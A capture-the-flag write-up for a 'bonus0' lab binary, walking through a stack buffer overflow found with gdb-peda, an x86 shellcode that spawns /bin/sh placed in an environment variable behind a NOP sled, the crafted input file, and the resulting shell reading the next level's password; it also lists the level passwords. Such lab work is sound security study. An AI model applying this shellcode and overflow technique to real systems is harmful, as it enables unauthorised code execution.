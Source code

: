 # Bonus0 -

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus0 | `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728` |
| bonus1 | `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute the binary

```shell
~/bonus0 aaa
  -
  (stdin) a
  -
  (stdin) b
  > a b
```

There is 2 prompts, and it concatenates them.

Lets debug the binary

```shell
(gdb) info functions
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```

See our assembly interpretation in [source file](../source.c)

We can see there is 2 prompts that read at most 4096. Then replace the first `\n` with a `\0`. And then extract 20 chars and concatenate them together.
But if there is no `\n` is the first 20 characters, there is a problem.

Lets check that together, what if we write exactly 20 chars.

```shell
./bonus0
   -
  (stdin) AAAAAAAAAAAAAAAAAAA # 19 chars
   -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBB
# It pass with 19 chars in the 1st prompt

./bonus0
  -
  (stdin) AAAAAAAAAAAAAAAAAAAA # 20 chars
  -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBBB
  Segmentation fault (core dumped)
```

It segfaults with 20 characters in the first buffer.

Lets debug that.

```shell
gdb-peda$ b*main+18
  (stdin) ABCDEFGHIJKLMNOPQRSTUVWXYZ (A-T 20)
  (stdin) abcdefghijklmnopqrstuvwxyz
gdb-peda$ run
gdb-peda$ x/50x $esp+0x16
  0xbffff616:[0x44434241	0x48474645	0x4c4b4a49	0x504f4e4d
  0xbffff626:	0x54535251][0x64636261	0x68676665  0x6c6b6a69
  0xbffff636:	0x706f6e6d	0x74737271][0xb7fd0ff4][0x63626120
  0xbffff646:	0x67666564	0x6b6a6968	0x6f6e6d6c	0x73727170]
  0xbffff656:	0xfd0ff474	0xc85800b7	0x0000b7fd	0xf61c0000

# [A-T][a-t][0xb7fd0ff4][a-c]' '[d-s]
# 20    20  4            3    1  16

gdb-peda$ continue
  EIP: 0x6d6c6b6a ('jklm')
  Invalid $PC address: 0x6d6c6b6a
  Stopped reason: SIGSEGV
  0x6d6c6b6a in ?? ()
```

Since we injected 20 chars in the prompts, there is like an overflow and it tries to access to the address `0x6d6c6b6a` ('jklm').

Maybe we could set a shellcode as environment variable, and redirect the code to the shellcode address.

We set the shellcode environment variable:

```shell
export SHELLCODE=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

We get the shellcode address:

```shell
gdb-peda$ searchmem SHELLCODE
  [stack] : 0xbffff864 ("SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀")
gdb-peda$ p 0xbffff864 + 10 # (length of "SHELLCODE=")
  $1 = 0xbffff86e
```

Then we replace the part "jklm" in the second prompt with the shellcode address :

```shell
# First prompt: A * 4095 + '\n' (=> to fill exactly the first prompt)
# Second prompt: abcdefghi\x6e\xf8\xff\xbfnopqrstuvwxyz

python -c 'print "A" * 4095 + "\n" + "abcdefghi" + "\x6e\xf8\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10
```

Lets try in gdb

```shell
gdb-peda$ run < /tmp/exploit10
  AAAAAAAAAAAAAAAAAAAAabcdefghivnopqrst abcdefghivnopqrst
> process 6716 is executing new program: /bin/dash
```

It seems that works, lets try directly with the binary:

```shell
cat /tmp/exploit10 - | ~/bonus0
  AAAAAAAAAAAAAAAAAAAAabcdefghivnopqrst abcdefghivnopqrst
id
> Segmentation fault (core dumped)
```

Unfortunately, it works perfectly with gdb but not out of debugger.

In this [post](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it), the first contributor argues _"the stack addresses in the debugger may not match the addresses during normal execution"_.

So maybe our shellcode address is not exact.

Another contributor advices us to put some NOP Sled before our malicious code.

We will modify our shellcode and put some NOP Sled before the shellcode to approximate the exact shellcode address.

```bash
export SHELLCODE=$(python -c 'print "\x90" * 0xff + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

```shell
gdb-peda$ searchmem SHELLCODE
  [stack] : 0xbffff764 ("SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀")
gdb-peda$ p 0xbffff764 + 10 # (length of "SHELLCODE=")
  $1 = 0xbffff76e

python -c 'print "A" \* 4095 + "\n" + "abcdefghi" + "\x76\xf8\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10

cat /tmp/exploit10 - | ~/bonus0
   -
   -
  > AAAAAAAAAAAAAAAAAAAAabcdefghiwnopqrst abcdefghiwnopqrst
  $ whoami
  > bonus1
  $ cat /home/user/bonus1/.pass
  > cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

---

## Sources

### Hack

- [Buffer overflow et variable d'environnement](https://www.hacktion.be/buffer-overflow-variable-environnement/)
- [Buffer overflow works in gdb but not without it](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it)

### C

- [Man puts](https://linux.die.net/man/3/puts)
- [Man read](https://linux.die.net/man/3/read)
- [Man strchr](https://linux.die.net/man/3/strchr)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man strncpy](https://linux.die.net/man/3/strncpy)
- [Man strcat](https://linux.die.net/man/3/strcat)
